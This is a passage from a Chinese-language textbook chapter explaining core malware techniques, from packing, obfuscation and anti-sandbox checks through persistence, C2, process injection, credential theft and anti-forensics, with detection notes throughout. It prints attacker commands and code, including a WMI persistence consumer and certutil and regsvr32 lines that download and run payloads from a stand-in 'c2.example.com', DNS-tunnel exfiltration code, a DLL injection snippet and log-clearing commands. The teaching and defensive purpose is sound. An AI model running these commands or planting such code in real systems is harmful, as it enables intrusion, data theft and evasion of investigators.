

## 24.2 恶意软件的核心技术手段

恶意软件从感染、驻留到通信、破坏，每个阶段都依赖一系列核心技术手段。理解这些手段不仅是逆向分析的前提，也是安全防御体系构建的基础。本节按照恶意软件生命周期，系统梳理代码保护、持久化、通信控制、进程注入、权限维持与反取证六大类技术，每类均从原理机制、具体实现、真实案例、检测对抗四个维度展开。

---

### 24.2.1 代码保护技术

代码保护是恶意软件对抗分析的第一道防线。攻击者投入大量精力保护恶意代码不被逆向、不被检测，技术复杂度从简单的压缩加壳发展到硬件级虚拟化保护。

#### 24.2.1.1 加壳（Packing）

加壳是最经典也最广泛使用的代码保护技术。壳程序通过压缩或加密原始代码，在运行时动态还原，从而阻碍静态分析。

**壳的分类体系**

| 类别 | 特征 | 典型代表 | 分析难度 |
|------|------|----------|----------|
| 压缩壳 | 仅压缩代码段，不改变逻辑 | UPX、ASPack、PECompact | 低——自动脱壳工具成熟 |
| 保护壳 | 加密+反调试+完整性校验 | Themida、VMProtect、Armadillo | 高——需要手动分析stub |
| 虚拟化壳 | 将指令转换为自定义字节码 | VMProtect（虚拟模式）、Code Virtualizer | 极高——需逆向虚拟机解释器 |
| 定制壳 | 恶意软件作者自写壳 | Emotet自定义壳、TrickBot变种壳 | 不确定——无通用解法 |

**壳的工作原理（以标准壳为例）**

```text
原始PE文件 → 壳代码压缩/加密原始.code段 → 生成新的PE文件
                                              ↓
运行时：壳stub获得控制权 → 解密/解压原始代码 → 修复IAT → 跳转OEP
```

具体流程分为五步：
1. **代码段处理**：将原始.text段压缩（如zlib、LZMA）或加密（如AES、XOR），存储在新增段或附加数据中
2. **Stub注入**：壳将自己的解压/解密代码写入程序入口点（Entry Point），使其优先执行
3. **内存映射**：解压后的代码被映射到正确的虚拟地址，恢复段属性（可读、可写、可执行）
4. **导入表重建**：修复Import Address Table（IAT），将原始程序所需的API函数地址填入
5. **控制权移交**：跳转到原始入口点（OEP），程序开始正常执行

**实战示例：UPX脱壳**

UPX（Ultimate Packer for eXecutables）是最常见的开源壳，恶意软件使用率极高（据ESET统计，约15%的恶意样本使用UPX变体）。

```bash
# 检测UPX壳
$ file malware.exe
malware.exe: PE32 executable, UPX packed

# 使用UPX自身脱壳
$ upx -d malware.exe -o malware_unpacked.exe

# 手动脱壳（当UPX被修改时）
# 1. 在调试器中加载，运行到壳解压完成
# 2. 在OEP处dump内存
# 3. 使用ImportREC修复导入表
```

**壳的检测方法**

```python
# 使用PEiD签名检测壳类型
import pefile

def detect_packer(filepath):
    pe = pefile.PE(filepath)
    # 检查入口点所在段名称
    for section in pe.sections:
        if pe.OEP >= section.VirtualAddress and \
           pe.OEP < section.VirtualAddress + section.Misc_VirtualSize:
            name = section.Name.decode('utf-8', errors='ignore').strip('\x00')
            print(f"入口点在段: {name}")
            # UPX常见段名: UPX0, UPX1
            # ASPack常见段名: .aspack
            # Themida常见段名: .Themida
    
    # 检查熵值（加壳代码熵值通常>7.0）
    import math
    for section in pe.sections:
        data = section.get_data()
        if not data:
            continue
        freq = [0] * 256
        for byte in data:
            freq[byte] += 1
        entropy = -sum(f/len(data) * math.log2(f/len(data)) for f in freq if f > 0)
        print(f"段 {section.Name}: 熵值 {entropy:.2f}")
```

#### 24.2.1.2 代码混淆（Obfuscation）

代码混淆通过改变代码结构和表现形式增加逆向难度，同时保持功能不变。相比加壳，混淆在代码层面制造障碍，更难以自动化工具绕过。

**控制流混淆**

控制流混淆是最强大的混淆手段之一，它打乱程序的执行顺序，使逆向工程师难以理解程序逻辑。

- **不透明谓词（Opaque Predicates）**：插入恒真或恒假的条件判断，但其结果在编译期无法确定。例如 `if (x*x + x) % 2 == 0` 对任何整数x恒真，但静态分析工具无法轻易证明这一点
- **控制流平坦化（Control Flow Flattening）**：将函数的控制流图（CFG）转换为基于switch-case的状态机结构，所有基本块处于同一层级，由分发变量决定执行顺序
- **虚假控制流**：插入永远不会执行的代码分支，包含看似合理的API调用和逻辑，增加分析噪音
- **指令替换**：将简单的算术指令替换为等价但复杂的指令序列（如 `add eax, 1` → `sub eax, -1` 或 `lea eax, [eax+1]`）

**字符串加密**

恶意软件中的敏感字符串（C2域名、注册表路径、API名称）是静态分析的重要线索。字符串加密技术包括：

```c
// 简单XOR加密示例
void decrypt_string(char *encrypted, int len, BYTE key) {
    for (int i = 0; i < len; i++) {
        encrypted[i] ^= key;
    }
}

// 使用时动态解密
char c2_domain[] = {0x1A, 0x3F, 0x28, 0x11, ...}; // 加密后的数据
decrypt_string(c2_domain, sizeof(c2_domain), 0x55);
// c2_domain现在包含明文域名
```

更复杂的变体使用多字节XOR、AES、RC4或基于环境的密钥派生。

**API动态解析**

为了避免在导入表中暴露敏感API，恶意软件使用以下技术动态获取函数地址：

```c
// 方法1：GetProcAddress
HMODULE hKernel = GetModuleHandle("kernel32.dll");
FARPROC pCreateFile = GetProcAddress(hKernel, "CreateFileW");

// 方法2：PEB遍历（不依赖任何导入）
// 通过TEB->PEB->Ldr遍历已加载模块，按导出表查找函数
typedef struct _PEB_LDR_DATA {
    LIST_ENTRY InMemoryOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;

// 方法3：哈希查找（避免硬编码API名称字符串）
// 将API名称计算哈希值，运行时遍历导出表匹配哈希
DWORD hash_api(const char *name) {
    DWORD hash = 0;
    while (*name) {
        hash = ((hash << 5) + hash) + *name;
        name++;
    }
    return hash;
}
```

**代码虚拟化**

代码虚拟化是当前最高级的混淆技术。保护工具将原始x86指令翻译为自定义虚拟机的字节码，运行时由内嵌的解释器执行。分析人员需要先逆向虚拟机的指令集和解释器逻辑，才能理解程序行为。

VMProtect的虚拟化引擎包含：自定义寄存器映射、变长编码指令集、多层分发机制、上下文切换混淆。逆向一个虚拟化保护的函数通常需要数天到数周的时间。

#### 24.2.1.3 反调试技术（Anti-Debugging）

反调试技术旨在检测程序是否运行在调试器下，一旦检测到调试环境就改变行为（退出、显示正常功能、触发蓝屏等）。

**常见反调试方法分类**

| 类别 | 方法 | 原理 | 绕过方式 |
|------|------|------|----------|
| API检测 | IsDebuggerPresent | 检查PEB.BeingDebugged标志 | 修改PEB或Hook API |
| API检测 | CheckRemoteDebuggerPresent | 检查远程调试器 | Hook API返回FALSE |
| API检测 | NtQueryInformationProcess | 查询ProcessDebugPort | Hook NtQueryInformationProcess |
| 硬件检测 | 检查DR0-DR7 | 调试寄存器非零表示被调试 | 清除调试寄存器 |
| 时间检测 | RDTSC/GetTickCount | 调试时单步执行导致时间差 | 修改时间返回值 |
| 异常检测 | 触发异常观察处理 | 调试器会先捕获异常 | 配置调试器不拦截异常 |
| 窗口检测 | FindWindow查找调试器窗口 | 查找OllyDbg、x64dbg窗口类名 | 隐藏/重命名窗口 |
| 进程检测 | 遍历进程列表 | 查找调试器进程 | 修改进程名或Hook |
| 父进程检测 | 检查父进程是否为explorer.exe | 调试器启动的进程父进程不是explorer | 修改父进程PID |

**反调试实例代码**

```c
// 方法1：PEB检测
BOOL IsDebugged_PEB() {
    BOOL bDebugged = FALSE;
    __asm {
        mov eax, fs:[0x30]      // 获取PEB地址
        movzx eax, byte ptr [eax+0x02]  // BeingDebugged字段
        mov bDebugged, eax
    }
    return bDebugged;
}

// 方法2：NtQueryInformationProcess
BOOL IsDebugged_NtQIP() {
    DWORD debugPort = 0;
    typedef NTSTATUS (WINAPI *pNtQIP)(HANDLE, UINT, PVOID, ULONG, PULONG);
    pNtQIP NtQueryInformationProcess = (pNtQIP)
        GetProcAddress(GetModuleHandle("ntdll.dll"), 
                       "NtQueryInformationProcess");
    NtQueryInformationProcess((HANDLE)-1, 7, &debugPort, 4, NULL);
    return debugPort != 0;  // ProcessDebugPort = 7
}

// 方法3：时间差检测
BOOL IsDebugged_Time() {
    DWORD t1 = GetTickCount();
    // 这段代码在调试器单步执行时会花费更多时间
    for (volatile int i = 0; i < 1000; i++);
    DWORD t2 = GetTickCount();
    return (t2 - t1) > 100;  // 阈值可根据实际情况调整
}
```

#### 24.2.1.4 反虚拟化与反沙箱技术

为了逃避自动化分析环境，恶意软件检测自身是否运行在虚拟机或沙箱中。

**虚拟机检测方法**

| 虚拟化平台 | 检测特征 |
|-----------|---------|
| VMware | 检查I/O端口`0x5658`（VMware backdoor）、注册表键`HKLM\SOFTWARE\VMware, Inc.\VMware Tools`、进程`vmtoolsd.exe`、MAC前缀`00:0C:29` |
| VirtualBox | 检查设备名`\\.\VBoxMiniRdrDN`、注册表键`HKLM\SOFTWARE\Oracle\VirtualBox Guest Additions`、MAC前缀`08:00:27` |
| Hyper-V | 检查CPUID叶`0x40000000`返回"Hicrosoft Hv"、WMI查询`Win32_ComputerSystem`的`Model`字段 |
| QEMU/KVM | 检查CPUID、`/proc/cpuinfo`中的QEMU标志、`/sys/class/dmi/id/`中的厂商信息 |

**沙箱规避技术**

- **环境指纹检测**：检查用户名是否为常见沙箱默认名称（如`user`、`sandbox`、`cuckoo`）、主机名是否包含分析环境标识
- **资源阈值检测**：沙箱通常分配有限资源，恶意软件检查CPU核心数（<2可疑）、内存大小（<2GB可疑）、磁盘容量（<60GB可疑）
- **交互行为检测**：记录鼠标移动轨迹、键盘输入频率、系统运行时间，真实用户的操作模式与自动化脚本有明显差异
- **延迟执行**：调用`Sleep()`等待数分钟甚至数小时再执行恶意代码，多数沙箱超时时间不足以捕获延迟行为
- **用户行为触发**：要求特定用户操作（如打开Word文档、访问特定网站、连续点击）才触发恶意载荷

```python
# 沙箱检测示例（Python伪代码）
import os, psutil, wmi

def is_sandbox():
    # 用户名检测
    if os.getenv('USERNAME').lower() in ['sandbox', 'cuckoo', 'user', 'maltest']:
        return True
    # 进程数检测（沙箱通常进程较少）
    if len(list(psutil.process_iter())) < 30:
        return True
    # 磁盘大小检测
    if psutil.disk_usage('C:\\').total < 60 * 1024**3:  # < 60GB
        return True
    # 系统运行时间检测
    if psutil.boot_time() > 0 and (time.time() - psutil.boot_time()) < 300:
        return True  # 运行不到5分钟
    return False
```

---

### 24.2.2 持久化技术

持久化是恶意软件在系统重启、用户注销后仍能保持运行的关键能力。MITRE ATT&CK框架将其归类为Persistence战术（TA0003），包含超过20种具体技术。

#### 24.2.2.1 注册表自启动项

Windows注册表包含大量自启动配置项，是最经典的持久化手段。

**高权限自启动（需要管理员权限）**

```text
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce
```

**用户级自启动（当前用户权限即可）**

```text
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

**特殊加载点**

| 加载点 | 路径 | 特点 |
|--------|------|------|
| Winlogon Notify | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify` | 在Winlogon特定事件时加载DLL |
| AppInit_DLLs | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs` | 所有加载user32.dll的进程都会加载此DLL |
| Image File Execution Options | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<程序名>\Debugger` | 指定程序启动时附带调试器，可劫持任意程序 |
| BootExecute | `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\BootExecute` | 系统启动早期执行的程序 |

#### 24.2.2.2 计划任务与系统服务

**计划任务（Scheduled Tasks）**

通过`schtasks.exe`或COM接口`ITaskService`创建计划任务，可在特定时间、系统启动、用户登录、空闲等条件触发：

```powershell
# 创建在系统启动时执行的计划任务
schtasks /create /tn "WindowsUpdate" /tr "C:\malware.exe" /sc onstart /ru SYSTEM

# 创建每隔5分钟执行一次的任务
schtasks /create /tn "SystemCheck" /tr "C:\payload.dll" /sc minute /mo 5 /ru SYSTEM

# 使用COM接口创建（更隐蔽，不经过schtasks.exe）
$taskService = New-Object -ComObject Schedule.Service
$taskService.Connect()
$folder = $taskService.GetFolder("\")
$taskXml = Get-Content "malware_task.xml"
$folder.RegisterTask("HiddenTask", $taskXml, 6, "SYSTEM", $null, 5)
```

**系统服务注册**

将自身注册为Windows服务，利用服务控制管理器（SCM）实现自动启动：

```powershell
# 注册恶意服务
sc create "WindowsSecurityAgent" binPath= "C:\Windows\System32\svchost.exe -k netsvcs" 
sc config "WindowsSecurityAgent" start= auto
sc description "WindowsSecurityAgent" "Windows Security Agent Service"

# 使用服务DLL方式（更隐蔽）
# 将DLL注册到已有svchost服务组中
# HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>\Parameters
# ServiceDll = C:\malware.dll
```

高级恶意软件还会Hook服务控制处理函数，拦截停止/暂停命令，使管理员无法正常关闭恶意服务。

#### 24.2.2.3 DLL劫持与搜索顺序漏洞

Windows加载DLL时按照特定顺序搜索，恶意软件利用这个顺序在合法程序目录下放置恶意DLL：

**DLL搜索顺序（SafeDllSearchMode启用时）**

```text
1. 应用程序所在目录
2. 系统目录（C:\Windows\System32）
3. 16位系统目录
4. Windows目录（C:\Windows）
5. 当前目录
6. PATH环境变量中的目录
```

**常见劫持目标**

- 恶意版本的`version.dll`、`dbghelp.dll`、`winhttp.dll`放在应用程序目录
- 修改`HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`以外的DLL路径
- 利用Side-by-Side（SxS）清单文件劫持DLL加载路径
- 对不存在的DLL（phantom DLL）进行劫持，利用`rundll32.exe`加载

```powershell
# 检测DLL劫持：比较已加载DLL的路径
Get-Process | ForEach-Object {
    $_.Modules | Where-Object {
        $_.FileName -notmatch "^(C:\\Windows|C:\\Program Files)"
    } | Select-Object ProcessName, FileName
}
```

#### 24.2.2.4 WMI事件订阅

WMI（Windows Management Instrumentation）提供了一种无文件的持久化机制，恶意代码存储在WMI数据库中而非文件系统。

```powershell
# 创建WMI事件订阅（三要素：事件过滤器、消费者、绑定）

# 1. 创建事件过滤器（触发条件）
$filter = Set-WmiInstance -Namespace "root\subscription" -Class __EventFilter -Arguments @{
    Name = "MalwareFilter"
    EventNamespace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 120"
}

# 2. 创建事件消费者（触发动作）
$consumer = Set-WmiInstance -Namespace "root\subscription" -Class CommandLineEventConsumer -Arguments @{
    Name = "MalwareConsumer"
    CommandLineTemplate = "powershell.exe -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://c2.example.com/payload.ps1')"
}

# 3. 绑定过滤器和消费者
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{
    Filter = $filter
    Consumer = $consumer
}
```

WMI持久化的隐蔽性在于：不创建文件、不修改注册表启动项、不创建计划任务，恶意代码以MOF（Managed Object Format）编译后存储在`%SystemRoot%\System32\wbem\Repository\`中。

#### 24.2.2.5 其他持久化技术

**启动文件夹**

```text
# 系统启动文件夹（所有用户）
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\

# 用户启动文件夹
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
```

**快捷方式修改（LNK文件）**

修改桌面上常用程序的快捷方式，将目标路径指向恶意程序，在启动合法程序的同时执行恶意代码。

**Office加载项**

在Office启动目录放置恶意宏文档或VSTO加载项：
```text
%APPDATA%\Microsoft\Word\STARTUP\
%APPDATA%\Microsoft\Excel\XLSTART\
%APPDATA%\Microsoft\AddIns\
```

**认证包与安全支持提供者**

注册恶意DLL为Authentication Package或Security Support Provider，在系统登录过程中被LSASS加载：
```text
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Authentication Packages
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
```

**内核模式持久化**

通过加载恶意驱动程序实现内核级持久化，极难检测：
- 注册为Boot-Start驱动，在系统启动最早期加载
- 修改ntoskrnl.exe的导入表
- 利用EFI/UEFI固件实现跨重装持久化

---

### 24.2.3 通信与控制技术

C2（Command and Control）通信是恶意软件与攻击者之间的生命线。C2技术的演进反映了攻防双方的持续博弈。

#### 24.2.3.1 传统HTTP/HTTPS通信

HTTP/HTTPS是使用最广泛的C2协议，因为HTTP流量在企业网络中极为常见，难以通过协议分析区分。

**Beacon模式**

恶意软件周期性地向C2服务器发送HTTP请求（心跳），服务器在响应中下发命令：

```text
GET /api/update?version=1.2.3&lang=en-US HTTP/1.1
Host: cdn-service.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Cookie: session=base64encodedcommand

# Cookie中的数据实际是加密的系统信息和心跳信号
# 服务器响应中包含待执行的命令
```

**域前置（Domain Fronting）**

利用CDN的SNI（Server Name Indication）与Host头分离特性，在HTTPS层面请求合法域名（如`cdn.microsoft.com`），实际将请求路由到攻击者控制的服务器。这种技术曾被APT29、OilRig等组织使用，但主要CDN提供商已开始封堵。

#### 24.2.3.2 DNS隐蔽通道

DNS查询几乎在所有网络中都被允许，使其成为理想的隐蔽通信载体。

**编码方式**

- **子域名编码**：将数据编码为子域名的一部分，如`aGVsbG8.c2.example.com`，其中`aGVsbG8`是base64编码的数据
- **TXT记录**：通过DNS TXT查询获取较长的响应数据，适合下载命令或小型文件
- **CNAME记录**：通过CNAME解析传递较长的编码数据
- **多种记录组合**：使用A、AAAA、MX、SRV等不同类型记录编码不同数据

**实际实现**

```python
import dns.resolver
import base64

# C2客户端：通过DNS查询接收命令
def receive_command(c2_domain):
    # 查询TXT记录获取命令
    answers = dns.resolver.resolve(f"cmd.{c2_domain}", 'TXT')
    for rdata in answers:
        encoded_cmd = ''.join(rdata.strings)
        command = base64.b64decode(encoded_cmd).decode()
        return command

# C2客户端：通过DNS查询发送数据
def send_data(data, c2_domain):
    encoded = base64.b32encode(data.encode()).decode().rstrip('=').lower()
    # 分块发送，每块作为子域名
    chunk_size = 63  # DNS标签最大长度
    for i in range(0, len(encoded), chunk_size):
        chunk = encoded[i:i+chunk_size]
        try:
            dns.resolver.resolve(f"{chunk}.{i//chunk_size}.{c2_domain}", 'A')
        except:
            pass  # NXDOMAIN是正常的
```

**检测方法**：分析DNS查询中的子域名长度、熵值、字符分布、查询频率。正常DNS查询子域名通常很短且包含可读字符，而DNS隐蔽通道的子域名通常较长且包含高熵编码数据。

#### 24.2.3.3 域名生成算法（DGA）

DGA（Domain Generation Algorithm）通过算法动态生成大量域名，恶意软件逐一尝试连接，攻击者只需注册其中少量即可建立通信。

**DGA工作原理**

```python
import hashlib
from datetime import datetime

def generate_dga_domains(seed, date, count=100):
    """简化版DGA算法示例"""
    domains = []
    for i in range(count):
        # 使用种子+日期+计数器生成伪随机字符串
        data = f"{seed}-{date.year}-{date.month}-{date.day}-{i}"
        hash_val = hashlib.md5(data.encode()).hexdigest()
        # 取前12个字符作为域名
        domain = hash_val[:12] + ".com"
        domains.append(domain)
    return domains

# 恶意软件和攻击者使用相同的种子和日期
# 就能生成相同的域名列表
domains = generate_dga_domains("secret_seed", datetime.now())
```

**DGA分类**

| 类型 | 特征 | 示例家族 |
|------|------|----------|
| 基于时间 | 以日期为种子，每天生成不同域名 | Conficker、Necurs |
| 基于随机数 | 使用硬编码种子或系统信息 | CryptoLocker、Bedep |
| 基于字典 | 从预定义词库中组合生成 | Suppobox、Matsnu |
| 基于哈希 | 对种子数据做哈希运算 | Bamital、Torpig |

#### 24.2.3.4 P2P通信

对等网络（P2P）架构消除了中心化C2服务器的单点故障。

**P2P僵尸网络架构**

```text
  [感染主机A] ←→ [感染主机B]
       ↕               ↕
  [感染主机C] ←→ [感染主机D]
       ↕               ↕
  [感染主机E] ←→ [攻击者控制节点]
```

每个节点既是客户端又是服务器，通过加密通信交换命令。代表案例：
- **GameOver Zeus**：使用P2P+DGA混合架构，FBI花费数年才将其摧毁
- **Hajime**：IoT僵尸网络，使用P2P架构传播，无中心C2
- **ZeroAccess**：使用Kademlia DHT协议构建P2P网络

#### 24.2.3.5 利用合法服务作为C2

攻击者利用合法云服务的合法域名和API作为C2通道，极难通过域名/IP黑名单封堵。

| 合法服务 | 使用方式 | 检测难度 |
|----------|---------|---------|
| GitHub | 在Issue或Gist中存放加密命令，恶意软件定期拉取 | 高——流量与正常GitHub使用无异 |
| Telegram Bot | 通过Bot API发送/接收命令 | 高——Telegram域名通常是白名单 |
| Twitter | 发布推文包含加密指令，恶意软件读取时间线 | 高——Twitter流量正常 |
| Pastebin | 存放混淆后的PowerShell脚本 | 中——Pastebin下载行为可被监控 |
| Google Drive | 存放恶意载荷文件 | 高——Google域名广泛放行 |
| Cloudflare Workers | 利用Workers作为C2中继代理 | 极高——Cloudflare流量无法封堵 |

#### 24.2.3.6 自定义协议与端口

部分恶意软件使用自定义TCP/UDP协议直接通信，或使用非标准端口：

- 使用高端口号（如4444、8443、53端口伪装DNS）直接TCP/UDP通信
- ICMP隧道：在ICMP Echo Request/Response的Data字段中嵌入命令
- SMTP隧道：利用邮件协议发送命令，通过邮箱收发
- WebSocket：建立持久化双向通信通道

---

### 24.2.4 进程注入技术

进程注入是恶意软件将代码注入到合法进程中执行的技术，目的是绕过防火墙规则、隐藏恶意行为、窃取进程权限。

#### 24.2.4.1 经典DLL注入

最常见的注入方式，将恶意DLL加载到目标进程中：

```c
// 1. 打开目标进程
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);

// 2. 在目标进程中分配内存
LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, dllPathLen, 
                                   MEM_COMMIT, PAGE_READWRITE);

// 3. 写入DLL路径
WriteProcessMemory(hProcess, remoteMem, dllPath, dllPathLen, NULL);

// 4. 创建远程线程执行LoadLibrary
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), 
                                            "LoadLibraryA"),
    remoteMem, 0, NULL);
```

#### 24.2.4.2 高级注入技术

| 技术 | 原理 | 检测难度 |
|------|------|---------|
| APC注入 | 向目标进程的线程APC队列插入恶意函数 | 中 |
| 线程劫持 | 挂起目标进程的线程，修改其上下文（EIP/RIP） | 高 |
| 进程镂空（Process Hollowing） | 创建挂起的合法进程，替换其内存内容 | 高 |
| 反射式DLL注入 | DLL不通过LoadLibrary加载，自身实现PE加载器 | 极高 |
| 进程镂空（Process Doppelgänging） | 利用NTFS事务机制创建虚假进程 | 极高 |
| AtomBombing | 利用Atom表写入代码到目标进程 | 极高 |
| 注入到可信进程 | 注入到`svchost.exe`、`explorer.exe`等系统进程 | 高 |

**进程镂空（Process Hollowing）实现原理**

```text
1. 以挂起状态（CREATE_SUSPENDED）创建合法进程（如svchost.exe）
2. 使用NtUnmapViewOfSection卸载合法进程的代码段
3. 使用VirtualAllocEx在目标进程分配新内存
4. 使用WriteProcessMemory写入恶意代码
5. 修复PE头和导入表
6. 使用SetThreadContext修改入口点地址
7. 恢复线程执行（ResumeThread）
```

---

### 24.2.5 权限维持与提权技术

#### 24.2.5.1 凭据窃取

- **Mimikatz**：从LSASS进程中提取明文密码、NTLM哈希、Kerberos票据
- **SAM数据库转储**：提取本地账户密码哈希
- **浏览器密码提取**：从Chrome、Firefox等浏览器的加密数据库中提取保存的密码
- **令牌窃取**：复制高权限进程的访问令牌以模拟其权限

#### 24.2.5.2 特权提升

| 技术 | 描述 |
|------|------|
| 令牌模拟 | 使用ImpersonateLoggedOnUser获取高权限 |
| UAC绕过 | 利用自动提升的白名单程序（如fodhelper.exe、eventvwr.exe）执行恶意代码 |
| 服务漏洞 | 利用Unquoted Service Path、Weak Service Permission等配置错误 |
| 内核漏洞利用 | 利用Windows内核提权漏洞（如CVE-2021-1732、PrintNightmare） |
| AlwaysInstallElevated | 利用组策略配置，以SYSTEM权限安装恶意MSI包 |

---

### 24.2.6 反取证与痕迹清除

高级恶意软件在完成任务后会清除痕迹，增加事后取证难度。

**日志清除**

```powershell
# 清除Windows事件日志
wevtutil cl Security
wevtutil cl System
wevtutil cl Application

# 清除PowerShell历史记录
Remove-Item (Get-PSReadLineOption).HistorySavePath -Force
```

**文件系统痕迹清除**

- 使用`DeleteFile`或`shred`彻底删除恶意文件
- 修改文件时间戳（timestomping）使其与系统文件一致
- 使用NTFS ADS（Alternate Data Streams）隐藏数据
- 利用合法系统工具（LOLBins）执行恶意操作，不留恶意文件痕迹

**内存取证对抗**

- 使用加密内存区域存储敏感数据
- 进程退出前清除关键内存区域
- 使用硬件加密（如Intel SGX）保护运行时数据

---

### 24.2.7 无文件恶意软件与Living off the Land

现代恶意软件越来越多地采用"无文件"或"少文件"策略，减少在磁盘上的痕迹。

**Living off the Land Binaries（LOLBins）**

利用系统自带的合法工具执行恶意操作：

| 工具 | 恶意用途 |
|------|---------|
| `powershell.exe` | 下载执行远程脚本、反射式DLL加载 |
| `mshta.exe` | 执行恶意HTA应用程序 |
| `regsvr32.exe` | 注册/执行恶意COM组件（Squiblydoo技术） |
| `rundll32.exe` | 加载恶意DLL |
| `certutil.exe` | 下载和解码恶意文件 |
| `wmic.exe` | 执行远程命令、WMI操作 |
| `bitsadmin.exe` | 后台下载恶意文件 |
| `InstallUtil.exe` | 执行.NET恶意程序集 |

```powershell
# LOLBin示例：使用certutil下载恶意文件
certutil -urlcache -split -f http://c2.example.com/payload.exe C:\Windows\Temp\update.exe

# 使用regsvr32执行远程脚本（Squiblydoo）
regsvr32 /s /n /u /i:http://c2.example.com/payload.sct scrobj.dll
```

**检测策略**：监控命令行参数、父子进程关系异常、LOLBins的非典型使用模式、脚本引擎（PowerShell、WScript、MSBuild）的行为日志。

---

### 24.2.8 各技术手段的关联与整体架构

恶意软件各技术手段并非独立存在，而是构成一个完整的作战体系：



一个典型的高级恶意软件（如Emotet）的工作流程：

1. **投递阶段**：通过钓鱼邮件附件（Office宏）投递，附件经过混淆
2. **执行阶段**：宏代码使用PowerShell下载载荷（LOLBins），载荷经过加壳
3. **驻留阶段**：创建注册表自启动项+计划任务双重持久化
4. **通信阶段**：使用HTTPS与多个C2节点通信，后备DGA域名
5. **更新阶段**：定期从C2下载更新的模块和载荷
6. **反分析**：检测调试器和沙箱，延迟执行，代码虚拟化保护核心逻辑

---

### 24.2.9 常见误区与纠正

| 误区 | 事实 |
|------|------|
| "加壳就等于恶意" | 合法软件也使用壳进行知识产权保护（如游戏反作弊、商业软件保护） |
| "脱壳后就能完全分析" | 高级壳（VMProtect、Themida）脱壳后代码仍然被虚拟化保护 |
| "反调试只能检测API" | 现代反调试技术涵盖硬件、时间、行为、环境等多个维度 |
| "DLL注入一定需要管理员权限" | 注入到同权限进程不需要提权，用户级注入很常见 |
| "无文件恶意软件不写磁盘" | 完全无文件极少见，多数会至少使用注册表、WMI存储等非文件位置 |
| "HTTPS流量无法检测" | TLS拦截代理、JA3指纹、证书验证等技术可检测异常HTTPS流量 |
| "P2P僵尸网络无法摧毁" | 可通过污染DHT、Sybil攻击等技术渗透和破坏P2P网络 |

---

### 24.2.10 进阶：前沿技术趋势

**AI辅助恶意软件**

- 使用GAN生成对抗样本绕过机器学习检测模型
- 利用LLM生成变体代码和钓鱼内容
- 自适应恶意软件根据环境动态选择技术手段

**硬件级持久化**

- UEFI/BIOS固件植入：修改固件实现跨重装持久化
- 网卡/硬盘固件植入：在硬件固件层面驻留
- Intel ME/AMD PSP利用：利用管理引擎实现最高权限持久化

**供应链攻击技术**

- 污染开源库依赖（如event-stream、ua-parser-js事件）
- 篡改软件更新通道（如SolarWinds事件）
- 攻击构建系统（如XcodeGhost）

这些前沿技术代表了恶意软件发展的方向，安全分析人员需要持续跟踪最新威胁情报，更新分析工具和方法论。
